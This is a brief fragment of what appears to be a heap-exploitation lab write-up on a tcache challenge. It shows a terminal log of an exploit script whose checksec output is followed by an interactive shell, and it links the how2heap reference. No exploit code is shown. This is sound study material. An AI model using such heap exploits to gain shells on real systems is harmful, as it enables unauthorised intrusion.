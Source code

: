 <br />

```s
[karim@karim tcache]$ python exploit.py
[*] '/home/karim/Documents/Heap/tcache/tcache'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  './'
[*] Switching to interactive mode
$id
uid=1000(karim) gid=984(users) groups=984(users),108(vboxusers),998(wheel),1000(flutterusers)
$
```

<br />

##### Reference

- [https://github.com/shellphish/how2heap](https://github.com/shellphish/how2heap)

